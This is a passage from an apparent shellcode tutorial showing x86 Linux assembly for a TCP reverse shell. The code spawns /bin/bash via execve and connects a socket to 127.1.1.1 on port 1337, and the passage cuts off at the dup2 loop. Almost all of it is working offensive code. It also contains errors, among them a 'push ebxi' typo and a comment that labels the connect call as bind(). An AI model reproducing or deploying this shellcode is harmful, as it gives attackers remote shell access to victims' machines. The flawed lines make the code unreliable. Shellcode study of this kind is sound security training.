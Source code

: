 ### 5. Spawn a bash shell for the remote client
#### Default C Function
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```  
#### Our C Function
```c
execve("/bin/bash", NULL, NULL);
```
#### Execve Assembly Shellcode
```nasm
xor edx, edx
push edx         ; Push NULL onto the stack 
push 0x68732f2f  ; Push "hs//" onto the stack 
push 0x6e69622f  ; Push "nib/" onto the stack 
mov ebx, esp     ; point ebx to stack
mov al, 0xb      ; execve
xor ecx, ecx
int 0x80         ; execute execve
```

## Complete Assembly Code for TCP Reverse Shell Shellcode

```nasm
; Filename: revTcpSh.asm
; Author: boku
global _start
section .text
_start:

xor eax, eax      ; Clear EAX Register. EAX = 0x00000000
mov al, 0x66      ; EBX = 0x66 = 102. SYSCAL 102 = socketcall
xor ebx, ebx      ; Clear EBX Register. EBX = 0x00000000
inc ebx	          ; EBX = 0x1 = socket() // Create a socket
xor ecx, ecx      ; Clear ECX Register. ECX = 0x00000000
push ecx          ; ECX[2] = int protocol = 0. 
push ebxi         ; ECX[1] - int type = SOCK_STREAM = 0x1. 
push byte 0x2     ; ECX[0] - int domain = AF_INET = PF_INET = 0x2. 
mov ecx, esp      ; Point the ECX Register to the Top of the stack
int 0x80          ; Execute the socket() System Call

xchg esi, eax     ; save the "sockfd" generated from the socket above 

xor eax, eax
inc ebx
push 0x0101017f   ; ARG[2]. sin_addr.s_addr: 127.1.1.1 (big endian)
push word 0x3905  ; ARG[1]. This is for the TCP Port 1337.
push bx           ; ARG[0]. Push the value 2 onto the stack for AF_INET.
mov ecx, esp      ; Now all that is left is to point ECX to the top of the 
                  ;  loaded stack and let it do it's thing.

push 0x10         ; ECX[2] - socklen_t addrlen // Sizeof sockaddr
push ecx          ; ECX[1] - const struct sockaddr *addr 
push esi          ; ECX[0] - int sockfd. Saved in ESI earlier

mov ecx, esp      ; Point ECX to the top of the Stack.
inc ebx	          ; Connect() value for the socketcall() SYSCAL
mov al, 0x66      ; socketcall() system call
int 0x80          ; System Call Interrupt 0x80 - Executes bind(). 
xchg ebx, esi

xor ecx, ecx
dup2loop:
```

[1]: 1